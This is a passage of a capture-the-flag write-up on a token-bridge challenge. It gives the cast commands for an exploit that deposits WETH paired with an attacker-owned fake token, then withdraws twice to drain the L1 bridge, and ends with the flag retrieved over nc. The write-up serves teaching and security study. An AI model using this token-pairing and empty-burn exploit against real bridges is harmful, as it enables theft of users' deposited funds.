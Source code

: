 Finally, we trigger the depositERC20(WETH, FakeToken, 2 ETH).

```
cast send <L1_BRIDGE> "depositERC20(address,address,uint256)" -r <RPC_URL_L1> --private-key <PRIVATE_KEY> -- <L1_WETH> <FAKE_TOKEN> 2000000000000000000
```

After making this call, the state of the L1 bridge balance will show:

- deposits[WETH][L2_WETH] = 2 ETH from the initial challenge deposit.
- deposits[WETH][FakeToken] = 2 ETH from our deposit.

To verify that the deposit worked and triggered the bug, we check the L2 chain balance. We should find 2 WETH there, confirming the bug’s activation.

```
cast call <L2_WETH> "balanceOf(address)" -r <RPC_URL_L2> --private-key <PRIVATE_KEY> -- <PLAYER_ADDRESS>
```
![alt text](https://i.imgur.com/TRSqQN5.png)

Then, we redeem this free WETH by calling withdraw(L2_WETH, 2 ETH).

```
cast send <L2_BRIDGE> "withdraw(address,uint256)" -r <RPC_URL_L2> --private-key <PRIVATE_KEY> -- <L2_WETH> 2000000000000000000
```
This action will change the L1 bridge state of deposits[WETH][L2_WETH] to 0. However, the deposits[WETH][FakeToken] will still show 2 ETH. Next, we make another withdrawal with withdraw(FakeToken, 2 ETH).

```
cast send <L2_BRIDGE> "withdraw(address,uint256)" -r <RPC_URL_L2> --private-key <PRIVATE_KEY> -- <FAKE_TOKEN> 2000000000000000000
```
This withdrawal will succeed, despite not having minted any FakeToken on the L2 chain (which would generally cause the burn() call to fail). This is because we own this token and our burn() function is essentially an empty function that does nothing. Next, the L2 bridge will relay a message to the L1, and the L1Bridge will finalize the withdrawal by reducing the deposits[WETH][FakeToken] to 0 and transferring another 2 ETH to us. As a result, the L1 bridge is successfully drained due to this bug.

```
╰─❯ nc 47.251.56.125 1337
team token? <REDACTED>
1 - launch new instance
2 - kill instance
3 - get flag
action? 3
rwctf{yoU_draINED_BriD6E}
```



